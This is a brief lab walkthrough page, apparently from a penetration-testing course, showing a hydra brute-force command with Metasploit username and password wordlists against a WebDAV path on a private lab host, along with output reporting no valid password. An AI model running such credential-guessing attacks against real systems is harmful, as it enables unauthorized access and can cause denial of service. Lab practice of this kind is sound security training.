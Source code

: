 <figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Authentication Required</p></figcaption></figure>

### hydra

* The credentials already provided, this is just a additional brute force to obtain the username and password.

{% hint style="danger" %}
Be careful with brute-force attack as it could potentially cause a DOS (Denial of Service)
{% endhint %}

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.0.16.192 http-get /webdav/
```

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-29 15:40:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.0.16.192:80/webdav/
1 of 1 target completed, 0 valid password found
```

<figure><img src="../../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
